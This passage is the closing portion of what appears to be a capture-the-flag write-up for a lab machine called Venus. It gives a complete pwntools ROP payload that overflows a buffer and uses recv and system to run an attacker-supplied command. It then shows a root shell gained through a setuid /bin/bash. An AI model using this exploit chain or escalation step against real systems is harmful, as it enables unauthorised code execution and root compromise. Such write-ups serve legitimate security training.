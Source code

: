 - This adds the address of the `recv` function in the Procedure Linkage Table (PLT) to the payload. When this is executed, it will call `recv(fd, binary.bss(), len(command))`.

6. Second `pop rdi; ret` Gadget

```python
payload += p64(pop_rdi)
payload += p64(binary.bss())
```

- `p64(pop_rdi)` adds the address of the `pop rdi; ret` gadget again.
- `p64(binary.bss())` places the address of the `.bss` section into `rdi`, which now contains the received command string.

7. Call `system`

```python
payload += p64(libc.sym.system)
```

- This adds the address of the `system` function from the libc library to the payload. When this is executed, it will call `system(binary.bss())`, effectively running the command stored in the `.bss` section.

**TLDR;**

```python
payload  = b''
payload += 0x418 * b'A'                # Padding to overflow buffer and reach return address
payload += p64(pop_rdi)                # Address of `pop rdi; ret`
payload += p64(fd)                     # File descriptor (first argument for `recv`)
payload += p64(pop_rsi)                # Address of `pop rsi; ret`
payload += p64(binary.bss())           # Address of `.bss` section (second argument for `recv`)
payload += p64(pop_rdx_rcx_rbx)        # Address of `pop rdx; pop rcx; pop rbx; ret`
payload += p64(len(command))           # Length of the command (third argument for `recv`)
payload += p64(0)                      # Dummy value for `rcx`
payload += p64(0)                      # Dummy value for `rbx`
payload += p64(binary.plt.recv)        # Address of `recv` function
payload += p64(pop_rdi)                # Address of `pop rdi; ret`
payload += p64(binary.bss())           # Address of `.bss` section (first argument for `system`)
payload += p64(libc.sym.system)        # Address of `system` function
```

### Exploit

```bash
└─$ py bof.py REMOTE
[+] Opening connection to localhost on port 9080: Done
Message sent to the Venus space station.
Enter message:
[*] Closed connection to localhost port 9080
```

```bash
└─$ ssh -L 9080:127.0.0.1:9080 magellan@10.0.2.19
magellan@10.0.2.19s password:
Last login: Sun Jul 21 22:25:20 2024 from 10.0.2.15
[magellan@venus ~]$ ls -l /bin/bash
-rwsr-xr-x. 1 root root 1390080 Jan 26  2021 /bin/bash
[magellan@venus ~]$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# ls
anaconda-ks.cfg  root_flag.txt
```
